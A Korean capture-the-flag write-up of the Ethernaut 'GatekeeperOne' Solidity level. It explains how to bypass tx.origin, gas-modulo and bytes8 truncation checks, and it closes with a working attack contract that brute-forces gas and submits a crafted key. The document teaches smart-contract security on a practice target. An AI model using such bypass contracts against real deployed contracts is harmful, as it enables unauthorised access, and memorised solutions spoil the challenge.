

## 문제
### 지문
Make it past the gatekeeper and register as an entrant to pass this level.
Things that might help:
- Remember what you've learned from the Telephone and Token levels.
- You can learn more about the special function `gasleft()`, in Solidity's documentation (see [Units and Global Variables](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) and [External Function Calls](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)).
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
## 배경지식

---

`msg.sender`는 현재 함수를 직접 호출한 주소이고, `tx.origin`은 트랜잭션을 처음 시작한 EOA 주소다.
EOA가 컨트랙트 A를 호출하고, 컨트랙트 A가 컨트랙트 B를 호출한다고 하자. 컨트랙트 B 입장에서 `msg.sender`는 컨트랙트 A이고, `tx.origin`은 처음 트랜잭션을 보낸 EOA다. 중간에 공격 컨트랙트를 하나 끼워 넣으면 `msg.sender != tx.origin` 조건을 만족시킬 수 있다.

---

`gasleft()`는 현재 호출 스택 프레임에 남아 있는 gas 양을 반환한다.
이번 문제는 `gasleft() % 8191 == 0`을 요구한다. 문제는 `enter` 내부에서 `gasleft()`가 호출되기 전까지도 함수 호출 비용, calldata 처리, modifier 진입 비용 등이 소모된다는 점이다. 그래서 외부에서 넘긴 gas 값과 `gateTwo`에서 관찰되는 gas 값은 그대로 같지 않다.
정확한 오프셋을 계산해도 되지만, 조건이 modulo $8191$ 하나뿐이라 $0$부터 $8190$까지 gas를 바꿔가며 시도해도 된다. 그 범위 안에서 한 번은 나머지가 맞는다.

---

`uintN`을 더 작은 `uintM`으로 변환하면 하위 M비트만 남는다. 예를 들어 `uint64` 값을 `uint32`로 바꾸면 하위 32비트만 남고, `uint16`으로 바꾸면 하위 16비트만 남는다.
이번 문제의 `bytes8` 키는 `uint64(_gateKey)`로 숫자처럼 해석된 뒤 `uint32`, `uint16`으로 잘린다. 즉 `gateThree`는 8바이트 키의 상위/하위 바이트를 비교하는 문제로 볼 수 있다.
## 문제 코드 분석

---

먼저 `gateOne`을 보자.
```solidity
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```
`enter`를 EOA에서 직접 호출하면 `msg.sender`와 `tx.origin`이 둘 다 내 EOA가 되므로 실패한다.
공격 컨트랙트의 `attack()`을 호출하고, 그 안에서 `GatekeeperOne.enter()`를 호출하면 대상 컨트랙트 입장에서는 `msg.sender`가 공격 컨트랙트가 된다. `tx.origin`은 여전히 내 EOA이므로 `gateOne`을 통과한다.

---

`gateTwo`는 gas 조건이다.
```solidity
modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
}
```
`gateTwo`는 `gasleft()` 값이 $8191$의 배수인지 확인한다.
공격 컨트랙트에서 low-level `call`을 사용할 때 `{gas: ...}`로 대상 호출에 넘길 gas를 지정할 수 있다. 다만 `gateTwo` 시점까지 일정량의 gas가 이미 소모되므로, `i + 8191 * 3`처럼 충분한 기본 gas에 `i`를 더해 $8191$개의 나머지를 전부 훑는다.

---

마지막은 `bytes8` 키 조건이다.
```solidity
modifier gateThree(bytes8 _gateKey) {
    require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
    require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
    require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
}
```
키를 8바이트 값 `0xHHHHHHHHMMMMLLLL` 형태라고 하자.
첫 번째 조건은 `uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))`이다. 하위 4바이트와 하위 2바이트가 같아야 하므로 중간 2바이트 `MMMM`은 `0000`이어야 한다.
두 번째 조건은 `uint32(uint64(_gateKey)) != uint64(_gateKey)`이다. 하위 4바이트와 전체 8바이트가 달라야 하므로 상위 4바이트 `HHHHHHHH`는 `00000000`이 아니어야 한다.
세 번째 조건은 `uint32(uint64(_gateKey)) == uint16(uint160(tx.origin))`이다. 키의 하위 4바이트가 `0x0000` + `tx.origin`의 하위 2바이트와 같아야 한다.
내 `tx.origin`이 `0x285ac9F8881D867556fCf6C16F26e3629F86C971`이면 하위 2바이트는 `0xC971`이다. 따라서 키는 다음 형태가 된다.
```solidity
0x????????0000C971
```
여기서 `????????`는 `00000000`만 아니면 된다. 그래서 `0x100000000000C971`을 사용할 수 있다.
## 풀이
`gateOne`은 공격 컨트랙트를 거쳐 호출해서 통과한다. `gateTwo`는 low-level `call`의 gas 값을 $8191$개 범위로 브루트포스한다. `gateThree`는 `tx.origin`의 하위 2바이트를 이용해 `0x100000000000C971` 형태의 `bytes8` 키를 만든다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
    bytes8 gatekey = 0x100000000000C971;
    address public target;

    constructor(address _addr) {
        target = _addr;
    }

    function attack() public {
        for (uint i = 0; i < 8191; i++) {
            (bool ok, ) = target.call{gas: i + 8191 * 3}(abi.encodeWithSignature("enter(bytes8)", gatekey));
            if (ok) {
                break;
            }
        }
    }
}
```

